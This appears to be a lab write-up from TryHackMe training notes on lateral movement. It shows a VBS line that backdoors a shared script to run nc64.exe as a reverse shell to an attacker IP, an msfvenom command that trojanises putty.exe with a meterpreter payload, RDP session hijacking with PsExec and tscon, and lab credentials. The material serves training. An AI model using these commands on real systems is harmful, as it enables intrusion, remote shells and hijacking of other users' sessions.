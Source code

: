 # Abusing User Behaviour

It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

***

### <mark style="color:green;">Backdooring .vbs Scripts</mark>

For example, if the shared resource is a VBS script, we can put a copy of `nc64.exe` on the same share and inject the following code,&#x20;

```vbnet
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

***

### <mark style="color:green;">Backdooring .exe Files</mark>

If the shared file is a Windows binary like `putty.exe`, we can download it and inject a backdoor inside it.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse\_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.

***

### <mark style="color:green;">RDP Hijacking</mark>

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using `psexec` to do so. First, let's run a `cmd.exe` as administrator:

<figure><img src="../../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

Run `PsExec64.exe`

```
PsExec64.exe -s cmd.exe
```

We can list existing sessions using `query`:

```
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

If we were currently connected via RDP using the administrator user, our SESSIONNAME would be `rdp-tcp#6` . There is also a user named 'luke' that has a session open with id `3` . Any sessions with a **disconnected (Disc.)** means the session has been left open and not being used.

If we took over his active session, the legitimate user will be forced out of it. To connect to the session we can use `tscon.exe`&#x20;

```
tscon 3 /dest:rdp-tcp#6
```

In simple terms, the command states that the graphical session `3` owned by luke, should be connected with the RDP session `rdp-tcp#6`, owned by the administrator user.

***

***

<figure><img src="../../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

## Task 4

Similar to the previous task, we need to hijack a users RDP session . Initial credentials are given (assume we captured with admin access). These credentials will give admin access to THMJMP2

User: t2\_charlie.holland

Password: Five2016

***

Login to the User through RDP

```bash
xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD
```

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

Just repeat the steps above and we should be good. Here after running `psexec` we get SYSTEM privileges and ready to hijack

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Query the users

<figure><img src="../../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

Connect to the session and attach the RDP session

```
tscon 4 /dest:rdp-tcp#25
```

We immediately get the flag

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>


